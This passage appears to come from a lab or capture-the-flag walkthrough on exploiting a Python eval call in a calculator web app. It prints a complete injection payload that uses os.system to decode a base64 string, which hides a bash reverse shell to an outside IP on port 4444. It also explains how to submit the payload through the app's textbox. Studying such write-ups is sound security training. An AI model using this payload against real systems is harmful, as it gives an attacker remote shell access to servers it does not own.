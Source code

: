 Here's the payload we'll use:

```
__import__("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuNzUuMTY3LjIvNDQ0NCAwPiYxIgo= | base64 -d | bash")
```

The above payload decodes the base64 encoded payload we created earlier and passes it to`bash`for executing the reverse shell payload.

Since our payload will be executed by the`eval`function in Python, we have to import Python's`os`module to execute the desired commands

Now we'll paste the payload in the textbox of the calculator webapp and press the`=`button to execute the payload to the backend\\

![](<../../../../.gitbook/assets/image (50) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (19) (1) (1) (1).png>)
